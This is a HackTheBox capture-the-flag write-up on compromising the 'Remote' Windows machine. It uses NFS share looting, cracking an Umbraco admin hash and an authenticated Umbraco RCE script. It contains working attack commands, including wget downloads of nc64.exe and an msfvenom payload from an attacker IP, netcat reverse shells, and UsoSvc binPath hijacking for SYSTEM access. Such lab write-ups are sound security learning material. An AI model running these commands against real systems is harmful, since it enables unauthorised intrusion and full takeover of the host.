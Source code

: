 # Remote

Author: Ewaël

**Remote** is an easy HackTheBox box by mrb3n.

`nmap -sC -sV -oN nmap 10.10.10.180 -v -A` shows lots of open ports. I start with the allowed anonymous FTP login but there is nothing to see there. Let's move on to the website.

![site](site.png)

I quickly find an Umbraco login page and `/people` contains potential users I could build a users list with:

![login](umbraco.png)

I find some Umbraco exploits on Google but I always need some creds first. Let's move on the 2049 port, maybe I am able to get some interesting files through the NFS.

```
$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

Perfect, let's mount this to explore it with `mount -t nfs 10.10.10.180:/site_backups /media/remote`:

```
$ ls -all
total 123
drwx------ 2 nobody 4294967294  4096 Feb 23 13:35 .
drwxr-xr-x 4 root   root        4096 Jun 16 06:25 ..
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 App_Browsers
drwx------ 2 nobody 4294967294  4096 Feb 20 12:17 App_Data
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 App_Plugins
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 aspnet_client
drwx------ 2 nobody 4294967294 49152 Feb 20 12:16 bin
drwx------ 2 nobody 4294967294  8192 Feb 20 12:16 Config
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 css
-rwx------ 1 nobody 4294967294   152 Nov  1  2018 default.aspx
-rwx------ 1 nobody 4294967294    89 Nov  1  2018 Global.asax
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Media
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 scripts
drwx------ 2 nobody 4294967294  8192 Feb 20 12:16 Umbraco
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Umbraco_Client
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Views
-rwx------ 1 nobody 4294967294 28539 Feb 20 00:57 Web.config
```

I quickly find what I think is an interesting line in `Web.config`:

```javascript
<network host="127.0.0.1" userName="username" password="password" />
```

But it turns out to be completly useless. After a lot of wasted time I finally try the correct grep on the correct file: `strings App_Data/Umbraco.sdf | grep admin`:

```
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
```

Cracking `b8be16afba8c314ad33d812f22a04991b90e2aaa` gives `baconandcheese`. Let's not forget the login page says `Your username is usually your email` and log with `admin@htb.local:baconandcheese` creds.

![admin](admin.png)

I start moving around searching for a way of uploading my reverse shell without success, so I decide to use this RCE script: [https://github.com/noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)

```
$ python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command ls
```

And it works perfecty well! I get the user flag this way before even trying to get a shell:

```
$ python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command cd /Users/Public; type user.txt'
ee9c5897bdd17b4c9db14cad7333ca29
```

Alright so because it works flawlessly, I decide to use this script to get my stable reverse shell too. I start by uploading `nc64.exe` on the target, then I execute it with `-e` option to start my shell after setting up my listener:

```
$ python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command cd /Users/Public; wget http://10.10.14.44:4444/nc64.exe -o nc.exe'
$ python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command cd /Users/Public; ./nc.exe 10.10.14.44 4444 -e cmd.exe'
```

That's it! I have my shell as `iis apppool\defaultapppool`! I can now upload `winPEAS.exe` the same way to start my enumeration:

```
    LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
    UsoSvc: AllAccess, Start
```

I google a bit to see what to do with this, and I find out that it is related to the CVE-2019-1322 (which makes sense considering the box maker marked it as CVE-oriented btw). I follow [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-10---cve-2019-1322-usosvc):

```
> sc.exe stop UsoSvc
> sc.exe config usosvc binPath="C:\Users\Public\nc.exe 10.10.14.44 4444 -e cmd.exe"
> sc.exe start usosvc
```

Aaaand... It fails. However I am still sure this is the right way to exploit the vulnerability, so I decide to upload a "real" reverse shell instead of trying my own sh\*tty stuff:

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.44 LPORT=4444 -f exe --platform windows -o revshell.exe
$ python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-NoProfile -Command cd /Users/Public; wget http://10.10.14.44:4444/revshell.exe -o revshell.exe'
```

I do the same routine again with `sc config usosvc binpath="c:\users\public\revshell.exe"` and it runs correctly this time, spawning me a shell as `authority\system`:

`a723c3504901d814e60dcab814731549`

Really loved this box, learned a ton of things about windows exploitation, huge thank's to the creator.
